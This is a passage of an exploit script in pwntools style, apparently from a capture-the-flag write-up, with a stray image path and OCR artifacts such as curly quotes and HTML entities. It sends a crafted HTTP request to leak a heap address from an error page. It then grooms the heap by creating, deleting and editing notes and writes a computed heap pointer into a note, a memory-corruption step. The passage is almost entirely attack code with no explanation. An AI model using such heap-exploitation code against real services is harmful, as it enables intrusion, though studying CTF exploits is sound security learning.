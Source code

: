 payload =  “GET x HTTP/1.1\r\n”

payload += “Login-ID: 12345\r\n”

payload += “\r\n”

# pause()

io.send(payload)

io.recvuntil(b”&lt;p&gt;The requested URL x”)

# print(hexdump(io.recvuntil(” was not”, drop = True)))

heap = u64(b”\0″ + io.recvuntil(b” was not”, drop = True) + b”\0\0″) &gt;&gt; 12 &lt;&lt; 12

print(“heap @ `{`:#x`}`”.format(heap))

​

​

pause()

login(‘0’ * 8, “”)

for i in range(16):

    payload = quote((p8(i) * 0x17))

    new_node(‘0’ * 8, payload)

​

# get_node(‘0’ * 8)

for i in range(16):

    delete_node(‘0’ * 8, i)

​

​

pause()

​

for i in range(16):

    payload = quote((p8(i) * 0x17))

    new_node(‘0’ * 8, ”)

​

edit_note(‘0’*8, ‘a’*8, 0)

edit_note(‘0’*8, quote(p64(heap+6480)), 1)
